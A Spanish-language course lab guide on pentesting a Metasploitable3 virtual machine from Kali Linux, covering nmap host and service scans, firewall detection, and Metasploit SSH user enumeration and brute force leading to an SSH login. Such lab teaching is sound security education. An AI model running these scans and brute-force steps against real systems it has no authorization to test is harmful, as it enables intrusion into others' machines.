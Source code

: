 ```yaml
---
title: Clase 03-04 - Pentesting en un Entorno Controlado usando Metasploitable 3
date: 2024-10-03 12:20:00 -0500
categories: [ciberseguridad, pentesting, laboratorio, metasploit, redes y seguridad]
tags: [MITRE ATT&CK, Metasploitable3, Kali Linux, SSH Fuerza Bruta, Nmap, Kill Chain]     # TAG names should always be lowercase
# header-includes:
#     - \usepackage{pdfpages}
---
```


**LINKS DE LA GRABACIÓN DE LA CLASE**: [Clase 03](https://drive.google.com/file/d/1tbM1LmHAu8VJGTf9TAkIbkcqcxDuRG0h/view?usp=sharing), [Clase 04](https://drive.google.com/file/d/1XAfEo2_aTlIVyf2CKqtlWB2ZAY5agIk2/view?usp=sharing)


# Guía de Laboratorio: Auditoría de Seguridad en un Entorno Controlado usando Metasploitable3

## Resumen del Laboratorio

En esta práctica guiada, se llevará a cabo una auditoría de seguridad en un entorno controlado que simula un entorno empresarial. Se utilizará Kali Linux como máquina atacante y Metasploitable3 como máquina víctima, configurada sobre Windows Server 2008 con el firewall activado. Este laboratorio permite aplicar metodologías de prueba de penetración que simulan una auditoría real, abarcando desde el reconocimiento inicial hasta la explotación básica.

El flujo de ataque sigue las etapas de la cadena de ataque (kill chain) de MITRE ATT&CK, identificando los componentes tangibles en cada fase: Reconocimiento, Escaneo y Enumeración, Acceso Inicial y Explotación.

## Etapa 1: Reconocimiento

La primera fase consiste en identificar la máquina objetivo dentro de la red y recolectar información básica sobre su configuración.

1. Configuración del Segmento de Red

- En esta etapa, se asume que se tiene conocimiento del segmento de red en el que se encuentra el objetivo, en este caso, el rango 192.168.122.0/24.

2. Comando de Escaneo Inicial con Nmap

- Para identificar dispositivos activos en la red, se utiliza Nmap para hacer un escaneo sin resolución de dominio.

```bash
sudo nmap -sn 192.168.122.0/24
```

**Explicación**: El parámetro -sn realiza un escaneo de ping, sin buscar servicios ni puertos abiertos, evitando levantar alertas en los sistemas de firewall y detección de intrusos.

3. Validación de Puertos Comunes

- Tras identificar la IP activa de la máquina víctima, se realiza un escaneo de puertos esenciales, como FTP (21), SSH (22), HTTP (80), y HTTPS (443), para comprobar su accesibilidad.

```bash
sudo nmap -Pn -p 21,22,80,443 192.168.122.175
```

**Explicación**: Aquí, -Pn desactiva el ping para evitar bloqueos de firewall, mientras que -p especifica los puertos a auditar. Este paso ayuda a detectar la presencia de un firewall si algunos puertos aparecen como "filtrados".

4. Confirmación de Firewall Activo

- Si algunos puertos parecen bloqueados o “filtrados”, se puede confirmar la existencia de un firewall realizando un traceroute.

```bash
traceroute 192.168.122.175
```

**Explicación**: La falta de respuesta después de múltiples saltos puede indicar un firewall que está filtrando el tráfico entrante. Este comportamiento es característico de dispositivos protegidos en redes empresariales.

## Etapa 2: Escaneo y Enumeración

Una vez identificada la máquina objetivo y confirmada la presencia de un firewall, se realiza un análisis más detallado para descubrir servicios específicos y versiones.

1. Escaneo Detallado de Servicios y Versiones con Nmap

- Aquí se ejecuta un escaneo con opciones que permiten identificar el tipo de servicio y su versión.

```bash
sudo nmap -sV -p 22,80 192.168.122.175
```

**Explicación**: La opción -sV permite identificar la versión de los servicios en los puertos activos. Esto proporciona una base para buscar posibles vulnerabilidades conocidas.

2. Identificación de Servicios SSH y FTP

- Si el puerto 22 (SSH) está abierto, se identifica la versión exacta del servicio SSH en ejecución, lo que será crucial para la fase de acceso inicial.

```bash
sudo nmap -sV -p 22 192.168.122.175
```

**Explicación**: Esto permite conocer la versión del servicio SSH, lo cual puede ser útil para verificar vulnerabilidades específicas asociadas a esa versión.

## Etapa 3: Acceso Inicial

Con la información obtenida sobre los servicios en ejecución, se pasa a intentar obtener acceso inicial al sistema a través del servicio SSH.

1. Enumeración de Usuarios con Metasploit

- En esta etapa, se utiliza Metasploit para enumerar usuarios válidos en el servicio SSH del sistema objetivo, lo que es parte de la recolección activa de información.

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.122.175
set USER_FILE /path/to/usernames.txt
run
```

**Explicación**: Este módulo de Metasploit permite enumerar usuarios válidos en el servicio SSH, utilizando una lista de usuarios comunes. La detección de nombres de usuario es esencial para los siguientes intentos de autenticación.

2. Ataque de Fuerza Bruta en SSH

Una vez identificados los usuarios válidos, se utiliza un ataque de fuerza bruta para intentar obtener contraseñas.

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.122.175
set USER_FILE /path/to/usernames.txt
set PASS_FILE /path/to/passwords.txt
set VERBOSE true
run
```

**Explicación**: Este módulo intenta varias combinaciones de usuarios y contraseñas usando un diccionario de contraseñas. Esto puede permitir el acceso inicial al sistema si alguna combinación es correcta.

## Etapa 4: Explotación y Acceso

Tras obtener una combinación de usuario y contraseña válida, se realiza la conexión y la explotación del sistema.

1. Conexión SSH

- Con el usuario y la contraseña obtenidos, se establece una conexión SSH al sistema objetivo.

```bash
ssh usuario@192.168.122.175
```

**Explicación**: Este comando establece una conexión remota al servidor, permitiendo la ejecución de comandos en la máquina comprometida.

2. Escalación de Privilegios (Opcional)

- Si el usuario con el que se accede no tiene privilegios administrativos, se puede proceder a buscar técnicas de escalación de privilegios mediante exploits o configuraciones inseguras.

**Explicación**: La escalación de privilegios es una etapa avanzada y opcional, dependiendo de los permisos iniciales obtenidos en la máquina.

## Conclusión y Recomendaciones

Este laboratorio guiado ha cubierto las principales etapas de la cadena de ataque de MITRE ATT&CK en un entorno simulado, pasando por reconocimiento, escaneo, acceso inicial y explotación básica. Esta práctica proporciona experiencia en la identificación de servicios, evasión de firewall, recolección de información mediante enumeración y obtención de acceso mediante fuerza bruta en SSH. Los pasos aquí seguidos permiten desarrollar habilidades esenciales para el pentesting en entornos empresariales.
